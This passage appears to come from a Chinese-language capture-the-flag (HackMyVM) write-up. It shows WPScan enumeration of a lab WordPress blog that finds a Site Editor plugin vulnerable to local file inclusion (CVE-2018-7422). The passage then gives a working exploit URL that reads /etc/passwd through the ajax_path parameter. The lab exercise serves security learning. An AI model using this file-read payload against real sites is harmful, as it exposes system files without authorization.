 ```bash
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://hard/blog/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://hard/blog/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://hard/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.7 identified (Insecure, released on 2021-03-09).
 | Found By: Rss Generator (Passive Detection)
 |  - http://hard/blog/?feed=rss2, <generator>https://wordpress.org/?v=5.7</generator>
 |  - http://hard/blog/?feed=comments-rss2, <generator>https://wordpress.org/?v=5.7</generator>
 |
 | [!] 44 vulnerabilities identified:

[+] site-editor
 | Location: http://hard/blog/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://hard/blog/wp-content/plugins/site-editor/readme.txt

```
里面可以检测到site-editor存在插件存在一个LFI
然后可以找到这个CVE的利用 
https://www.exploit-db.com/exploits/44340
验证一下发现存在可以利用
```txt
http://192.168.56.13/blog/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```
![assets/Pasted image 20241221183831.png](/img/user/24-%E6%B8%97%E9%80%8F/HMV/assets/Pasted%20image%2020241221183831.png)
